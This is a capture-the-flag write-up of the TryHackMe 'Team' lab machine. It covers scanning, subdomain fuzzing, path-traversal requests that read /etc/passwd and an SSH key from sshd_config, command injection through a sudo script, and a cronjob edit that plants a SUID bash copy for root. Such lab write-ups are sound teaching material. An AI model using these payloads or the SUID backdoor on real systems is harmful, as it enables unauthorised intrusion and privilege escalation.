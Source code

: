 ```yaml
---
title: "TryHackMe - Team"
author: Nasrallah
description: ""
date: 2022-10-17 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, lfi, subdomain, cronjob]
img_path: /assets/img/tryhackme/team
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Team](https://tryhackme.com/room/teamcw) from [TryHackMe](https://tryhackme.com). After scanning the machine and finding a webserver, we discover a subdomain vulnerable to lfi giving the ability to read files on the system and finding an ssh private key giving us foothold to the machine. After that we find we can run a script as another user that doesn't handle user input in a secure way, so we exploit that to upgrade to that user. With our new user, we discover a script that's being run as a cronjob and that we can edit that script, so we edit the script to give us root shell.

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.250.228
Host is up (0.097s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 79:5f:11:6a:85:c2:08:24:30:6c:d4:88:74:1b:79:4d (RSA)
|   256 af:7e:3f:7e:b4:86:58:83:f1:f6:a2:54:a6:9b:ba:ad (ECDSA)
|_  256 26:25:b0:7b:dc:3f:b2:94:37:12:5d:cd:06:98:c7:9f (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add 'te...
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

There are tree open ports on Ubuntu Linux machine, port 21 running vsftpd, port 22 running OpenSSH and port 80 running Apache.

## Web

Let's navigate to the web page.

![](1.png)

It's the Apache2 Ubuntu default page. Let's check the source code.

![](2.png)

In the title element, we found a message stating that we need to add team.thm to our /etc/hosts file, os let's do that and navigate to the domain.

![](3.png)

Let's run a directory scan.

```terminal
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://team.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/06/19 07:31:42 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 273]
/.htpasswd            (Status: 403) [Size: 273]
/assets               (Status: 301) [Size: 305] [--> http://team.thm/assets/]
/images               (Status: 301) [Size: 305] [--> http://team.thm/images/]
/robots.txt           (Status: 200) [Size: 5]                                
/scripts              (Status: 301) [Size: 306] [--> http://team.thm/scripts/]
/server-status        (Status: 403) [Size: 273]                               
===============================================================
```

We found robots.txt which contains a possible username.

Let's scan the target for subdomains using the following command:

```bash
ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://team.thm -H "Host: FUZZ.team.thm" --fw 3512 
```

![](4.png)

Found `dev` subdomain, let's add to our hosts and navigate to it.

![](5.png)

There is a link in this page redirecting us to `http://dev.team.thm/script.php?page=teamshare.php`.

Let's see if this parameter is vulnerable to Local File Inclusion by requesting `http://dev.team.thm/script.php?page=../../../../etc/passwd`

![](6.png)


# **Foothold**

I checked `dale`'s home directory for an ssh key as well as `gyles` but could find anything, but if we check ssh config file at `/etc/ssh/sshd_config`, we find a private ssh key.

```
http://dev.team.thm/script.php?page=../../../../etc/ssh/sshd_config
```

![](7.png)

Let's copy that to our machine, give it the right permission and connect with it.

![](8.png)


# **Privilege Escalation**

Let's check our current privileges with `sudo -l`.

```terminal
dale@TEAM:~$ sudo -l
Matching Defaults entries for dale on TEAM:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dale may run the following commands on TEAM:
    (gyles) NOPASSWD: /home/gyles/admin_checks
dale@TEAM:~$ 

```

We can run a script called `admin_checks` as `gyles`, let's check the script.

```bash
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"
```

We can see in line nice, the scripts takes input from the user and put it in variable `error`, then in line 11, whatever in the `error` variable gets executed.

We can enter `/bin/bash` and it will be executed giving a shell as `gyles`.

![](9.png)

As gyles, I uploaded a copy of linpeas, run it and got the following.

![](10.png)

There is an interesting file that we can edit named `main_backup.sh`. Let's check it out.

![](11.png)

The script copies the content of team.thm and put in a backup directory. When we check that backup, we notice that it's been done very recently, so there must a cronjob running.

I added the following command to the script that would make a copy of bash in /tmp and give suid bit.

```bash
cp /bin/bash /tmp/bash && chmod +s /tmp/bash
```

![](12.png)

Great! We got root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References
